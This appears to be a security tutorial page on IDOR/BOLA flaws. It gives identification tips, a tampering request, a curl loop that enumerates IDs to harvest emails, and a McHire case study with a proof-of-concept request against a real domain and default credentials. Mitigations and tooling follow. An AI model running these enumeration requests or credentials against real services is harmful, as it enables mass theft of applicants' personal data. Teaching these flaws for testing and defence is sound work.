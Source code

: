 # IDOR (Insecure Direct Object Reference)

{{#include ../banners/hacktricks-training.md}}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) appears when a web or API endpoint discloses or accepts a user–controllable identifier that is used **directly** to access an internal object **without verifying that the caller is authorized** to access/modify that object.  
Successful exploitation normally allows horizontal or vertical privilege-escalation such as reading or modifying other users’ data and, in the worst case, full account takeover or mass-data exfiltration.

---
## 1. Identifying Potential IDORs

1. Look for **parameters that reference an object**:
   * Path: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`  
   * Query: `?id=42`, `?invoice=2024-00001`  
   * Body / JSON: `{"user_id": 321, "order_id": 987}`  
   * Headers / Cookies: `X-Client-ID: 4711`
2. Prefer endpoints that **read or update** data (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Note when identifiers are **sequential or predictable** – if your ID is `64185742`, then `64185741` probably exists.
4. Explore hidden or alternate flows (e.g. *"Paradox team members"* link in login pages) that might expose extra APIs.
5. Use an **authenticated low-privilege session** and change only the ID **keeping the same token/cookie**. The absence of an authorization error is usually a sign of IDOR.

### Quick manual tampering (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```

### Automated enumeration (Burp Intruder / curl loop)
```bash
for id in $(seq 64185742 64185700); do
  curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
       -H 'Content-Type: application/json' \
       -H "Cookie: auth=$TOKEN" \
       -d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```

---
## 2. Real-World Case Study – McHire Chatbot Platform (2025)

During an assessment of the Paradox.ai-powered **McHire** recruitment portal the following IDOR was discovered:

* Endpoint: `PUT /api/lead/cem-xhr`
* Authorization: user session cookie for **any** restaurant test account
* Body parameter: `{"lead_id": N}` – 8-digit, **sequential** numeric identifier

By decreasing `lead_id` the tester retrieved arbitrary applicants’ **full PII** (name, e-mail, phone, address, shift preferences) plus a consumer **JWT** that allowed session hijacking. Enumeration of the range `1 – 64,185,742` exposed roughly **64 million** records.

Proof-of-Concept request:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
     -H 'Content-Type: application/json' \
     -d '{"lead_id":64185741}'
```

Combined with **default admin credentials** (`123456:123456`) that granted access to the test account, the vulnerability resulted in a critical, company-wide data breach.

---
## 3. Impact of IDOR / BOLA
* Horizontal escalation – read/update/delete **other users’** data.
* Vertical escalation – low privileged user gains admin-only functionality.
* Mass-data breach if identifiers are sequential (e.g., applicant IDs, invoices).
* Account takeover by stealing tokens or resetting passwords of other users.

---
## 4. Mitigations & Best Practices
1. **Enforce object-level authorization** on every request (`user_id == session.user`).  
2. Prefer **indirect, unguessable identifiers** (UUIDv4, ULID) instead of auto-increment IDs.
3. Perform authorization **server-side**, never rely on hidden form fields or UI controls.
4. Implement **RBAC / ABAC** checks in a central middleware.
5. Add **rate-limiting & logging** to detect enumeration of IDs.
6. Security test every new endpoint (unit, integration, and DAST).

---
## 5. Tooling
* **BurpSuite extensions**: Authorize, Auto Repeater, Turbo Intruder.  
* **OWASP ZAP**: Auth Matrix, Forced Browse.  
* **Github projects**: `bwapp-idor-scanner`, `Blindy` (bulk IDOR hunting).

{{#include ../banners/hacktricks-training.md}}

## References
* [McHire Chatbot Platform: Default Credentials and IDOR Expose 64M Applicants’ PII](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [How to Find More IDORs – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{{#include /banners/hacktricks-training.md}}
